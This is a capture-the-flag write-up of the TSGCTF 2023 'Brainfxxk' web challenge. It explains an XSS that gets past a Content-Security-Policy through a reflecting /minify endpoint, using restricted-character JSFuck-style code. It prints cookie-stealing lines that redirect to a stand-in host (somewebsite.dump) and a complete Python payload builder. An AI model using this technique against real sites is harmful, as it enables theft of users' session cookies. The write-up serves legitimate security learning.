





# TSGCTF 2023: Brainfxxk writeup

**Category:** web

**Difficulty:** Medium (11 solves)

**Author:** [@syobon_hinata (fabon)](https://twitter.com/syobon_hinata)

**Prompt:**
> Brainfuck is extremely unreadable because its source code consists only of symbols. So we introduced a modified Brainfuck variant which accepts the letter `r` instead of `,` and `=` instead of `.`. Very readable, isn't it?
> 
> http://34.84.176.251:37291/


**Attachments:** [*asd.py*](./attachments/asd.py), [*brainfxxk_challenge.tar.gz*](./attachments/brainfxxk_challenge.tar.gz)



<!-- more -->

## Brainfxxk: First look

Taking a first look at the challenge, we are provided with a web service who's front page has a couple features.



1. There is an input field where we can enter any text.
2. There is a **Save** button, which when pressed, brings us to a webpage where our text is reflected back to us.
3. There is a **See minified code** button, which when pressed, seems to remove reflect our text back to us, but with most characters removed.
4. The webpage seen after saving the text also has a **Report this page** button, which directs us to another page that says "Reported. Admin will check the page.".

Based on the fact there is reflected text and an admin bot we can report to, it's likely we need to pull off some sort of XSS attack to steal the flag.

## Brainfxxk: Source Code

We are provided the source code, and upon checking the included `compose.yaml` file, we can see there are three services:
* server: a NodeJS server.
* redis: A redis server.
* crawler: While not immediately evident, most likely the admin bot.

### Looking at the server's code

Diving into the `server.js` here's what we find:

1. We can see the **Content-Security-Policy** set by the server.
    ```js
    app.use((req, res, next) => {
        const cssFiles = ['https://unpkg.com/sakura.css@1.4.1/css/sakura.css']
        res.setHeader('Content-Security-Policy', `style-src 'self' ${cssFiles.join(' ')} ; script-src 'self' ; object-src 'none' ; font-src 'none'`)
        next()
    })
    ```

    From this, we can tell that inline scripts won't execute (we can verify by testing), but included script files from the server itself are executed.

2. We can see what is happening when we minify some input.
    ```js
    app.get('/minify', (req, res) => {
        const code = req.query.code ?? ''
        res.send(code.replaceAll(/[^><+\-=r\[\]]/g, ''))
    })
    ```

    The server is removing all characters that do not match the regex pattern `/[^><+\-=r\[\]]/g`. This regex pattern matches all characters that aren't in this list: `>`, `<`, `+`, `-`, `=`, `r`, `[`, `]`

    Testing this using the front-end's minify feature confirms this finding.

3. We can see how the server is reflecting our input after we save.

    First, when we submit the code, it is stored using Redis.
    ```js
    app.post('/submit', (req, res) => {
        const code = req.body.code
        if (!code) {
            res.send('Please submit a code')
            return
        }
        const codeId = [...Array(16)].map(e=>Math.floor(Math.random() * 36).toString(36)).join('')
        redisClient.set(codeId, code)
        res.redirect(`/${codeId}`)
    })
    ```

    Then, when we view the code, it fetches it from Redis and displays it using the `show` template.
    ```js
    app.get('/:codeId', asyncRoute(async (req, res) => {
        const code = await redisClient.get(req.params.codeId)
        if (!code) {
            res.status(404).send('Not found')
            return
        }
        res.render('show', {
            code,
            pagePath: req.originalUrl
        })
    }))
    ```

4. Investigating the `show` template, we can see where our code is being displayed.
    ```html
    <pre><code><%- code %></code></pre>
    ```
    Most importantly, we can see it's using `<%-` to include `code`, which means it's unsafely reflecting the input. We can enter our own HTML code here.

### Looking at the admin bot

Diving into the admin bot's `crawler.js`, we can find where the flag is kept.

```
    const page = await browser.newPage()
    page.setCookie({
        name: 'cookie',
        value: process.env.FLAG,
        domain: process.env.APP_DOMAIN
    })
```

When the admin bot visits the web page, it has a cookie with the flag. Notice that the `httpOnly` property is not set, so we can access it using JavaScript.

## Putting together the pieces

Using the `/submit` and `/:codeId` endpoints, we can reflect any HTML content back, which will be formatted into a web page. But we can't use inline Javascript or Javascript from an external source.

Using the `/minify` endpoint, we can reflect raw input, as long as its only uses the characters `^><+-=r[]`.

Putting the two above pieces together, we can include some script using the minify endpoint, as the minify endpoint is considered as `self` by the Content-Security-Policy. This can be done by submitting some input like:

```html
<script src="/minify?code=SOMETHINGMALICIOUSHERE"></script>
```

With the main caveat being `SOMETHINGMALICIOUSHERE` can only be composed of the characters `^><+-=r[]`.

Then using the `/report` endpoint, we can make the admin bot visit the `/:codeId` endpoint for our submission.

## Brainfuck, JSFuck, and a lot of thought

As hinted in the title and the prompt, [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck) is a programming language made up of only the characters `><+-.,[]`. However, here we are trying to run JavaScript, not Brainfuck.

Something similar in JavaScript is [JSFuck](https://en.wikipedia.org/wiki/JSFuck), a common obfuscation technique for JavaScript code. JSFuck can run any valid JavaScript code using only the characters `[]()!+`.

### How does JSFuck manage?

While we don't have all the characters JSFuck has (we are missing `()!`), it is obvious we need to pull off a similar feat. By reading the JSFuck wikipedia page, we can determine the many ways JSFuck manages to perform its actions.

* `![]` equates to `false`
* `!![]` equates to `true`
* `[][[]]` equates to `undefined`
* `+[]` equates to `0`, `+!![]` equates to `1`, `!![]+!![]` equates to `2`, and so on
* `[]+![]` equates to `"false"`
* `([]+![])[+[]]` equates to `"f"`, `([]+![])[+!![]]` equates to `"a"`, and more characters can be accessed in this manner

### How can we manage?

Before reading this section, **I highly recommended you read the JSFuck wikipedia article**. It will help you understand the next section tremendously.

The characters we have at our disposal are `^><+-=r[]`. Compared to JSFuck, we are missing `()!` but we have extras `><-=r`.

With a lot of inspiration from JSFuck, some brainstorming, and messing around in the JavaScript console, we can get some primitives:

* `[]>[]` equates to `false`
* `[]<=[]` equates to `true`
* `[][[]]` equates to `undefined`
* `+[]` equates to `0`
* We can simulate parenthesis used like `(A)` to encapsulate an expression by putting `A` into an array (`[A]`) and then access the first element of that array like `[A][+[]]`.
* `+[[]<=[]][+[]]` equates to `1` (`+([]<=[])`, but using the technique above)
* `[[]+[[]<=[]][+[]]][+[]]` equates to `"true"`
* `[[]+[[]<[]][+[]]][+[]]` equates to `"false"`
* `[[][[]]+[]][+[]]` equates to `"undefined"`
* And a very complicated one which drew inspiration from the Wikipedia page, `[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]]` equates to `"function at() {\n    [native code]\n}"`

Unfortunately, a major disadvantage of not having parenthesis (`()`) is we cannot execute any functions. There are [some tricks](https://stackoverflow.com/questions/35949554/invoking-a-function-without-parentheses) to execute functions that take no parameters, but I found that to not be helpful.

#### Building strings

Using all the above strings, we can access many characters which can be used to assemble our own strings. I built a dictionary of these characters and wrote a function in Python that I could use to build strings.

```py
def build_string(string):
    dictionary = {
        'a': '[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]',
        'b': '',
        'c': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'd': '[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'e': '[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'f': '[[]+[[]<[]][+[]]][+[]][+[]]',
        'g': '',
        'h': '',
        'i': '[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'j': '',
        'k': '',
        'l': '[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'm': '',
        'n': '[[][[]]+[]][+[]][+[[]<=[]][+[]]]',
        'o': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'p': '',
        'q': '',
        'r': '[[]+[[]<=[]][+[]]][+[]][+[[]<=[]][+[]]]',
        's': '[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        't': '[[]+[[]<=[]][+[]]][+[]][+[]]',
        'u': '[[][[]]+[]][+[]][+[]]',
        'v': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'w': '',
        'x': '',
        'y': '',
        'z': '',
        ' ': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]'
    }
    built_str = "+".join([dictionary[c] for c in string])
    return built_str
```

Thanks to the fact we can have `r` in our code, we can actually access DOM elements whose ID is set to `r`. For example, in our submission we could have an element `<div id="r" data-a="some arbitrary string" data-aa="another string">` and then using the Brainfxxk equivalent of `r.dataset.a` we could access `"some arbitrary string"` and with `r.dataset.aa` we could access `"some arbitrary string"`.

**Note:** It did not occur to me until after the competition that we can have multiple DOM elements, with IDs of `r`, `rr`, `rrr`, etc which could've made the following much easier, as we could just use some easy attribute like `title` instead of `dataset.a` for all of them. Live and let learn I guess.

To access `r.dataset.a` in our messed up language, there is the following progression:

1. `r.dataset.a`
2. `r["dataset"]["a"]`
3. `r["dataset"][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]]`
4. `r["datase"+[[]+[[]<=[]][+[]]][+[]][+[]]][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]]`
5. ... skip a few ...
6. `r[[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]]+[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]+[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]+[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]]`

Now we can access any arbitrary string.

#### Accessing the cookie

I could not, for the life of me, find a way to access `document.cookie`. But I came up with a clever trick. If the `src` of an iframe is the same as the current document, the iframe's parent can access its cookies. So by setting our single DOM element to be an iframe, and setting its src to be the current webpage, we can access its cookies using `r.contentDocument.cookie` (or `r["contentDocument"]["cookie"]` then use our string trick above).

#### Stealing the cookie

This part was relatively simple. Usually in XSS challenges, you extract the cookie by redirecting the browser to some website you own with the cookie as a parameter:

```js
window.location = "http://somewebsite.dump/?" + document.cookie;
```

Here, armed with an iframe, we can set its source in much the same way.

```js
r.src = "http://somewebsite.dump/?" + r.contentDocument.cookie;
```

Or, closer to our required Brainfxxk:

```js
r["src"] = "http://somewebsite.dump/?" + r["contentDocument"]["cookie"];
```

Then we can use our strings trick above to set the strings.

## Time to exploit

Now armed with all the above tricks, we can run code, get the cookie, and send it to a remote server.

I used a Python script to help build the payload.

```py
import requests
import urllib.parse
import re

def build_string(string):
    dictionary = {
        'a': '[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]',
        'b': '',
        'c': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'd': '[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'e': '[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'f': '[[]+[[]<[]][+[]]][+[]][+[]]',
        'g': '',
        'h': '',
        'i': '[[][[]]+[]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'j': '',
        'k': '',
        'l': '[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'm': '',
        'n': '[[][[]]+[]][+[]][+[[]<=[]][+[]]]',
        'o': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'p': '',
        'q': '',
        'r': '[[]+[[]<=[]][+[]]][+[]][+[[]<=[]][+[]]]',
        's': '[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        't': '[[]+[[]<=[]][+[]]][+[]][+[]]',
        'u': '[[][[]]+[]][+[]][+[]]',
        'v': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]',
        'w': '',
        'x': '',
        'y': '',
        'z': '',
        ' ': '[[]+[][[[]+[[]<[]][+[]]][+[]][+[[]<=[]][+[]]]+[[]+[[]<=[]][+[]]][+[]][+[]]]][+[]][+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]+[[]<=[]][+[]]]'
    }
    built_str = "+".join([dictionary[c] for c in string])
    return built_str

# Showing the progress of how the payload was built

# r.src="http://somewebsite.dump/?"+r.contentDocument.cookie
# r["src"]="http://somewebsite.dump/?"+r["contentDocument"]["cookie"]
# r["src"]="http://somewebsite.dump/?"+r["contentDocument"]["cookie"]
# r["src"]=r.dataset.a+r[r.dataset.aa][r.dataset.aaa]
# r["src"]=r["dataset"]["a"]+r[r["dataset"]["aa"]][r["dataset"]["aaa"]]
# build string on the next one refers to the method above
# r[{build_string("src")}]=r[{build_string("dataset")}][{build_string("a")}]+r[r[{build_string("dataset")}][{build_string("aa")}]][r[{build_string("dataset")}][{build_string("aaa")}]]

jsfuck = f"r[{build_string("src")}]=r[{build_string("dataset")}][{build_string("a")}]+r[r[{build_string("dataset")}][{build_string("aa")}]][r[{build_string("dataset")}][{build_string("aaa")}]]"

payload = f"""
<iframe id="r" src="/" data-a="http://somewebsite.dump/?" data-aa="contentDocument" data-aaa="cookie"></iframe>
<script src="/minify?code={urllib.parse.quote_plus(jsfuck)}"></script>
"""

print(payload)
```

Now we submit this on the web page, report it the admin bot, and wait for the cookie.








And we got the flag!

```
TSGCTF{u_r_j5fuck_m4573r}
```

**Thanks again to the University of Tokyo for hosting this competition!** These challenges were very satisfying to solve.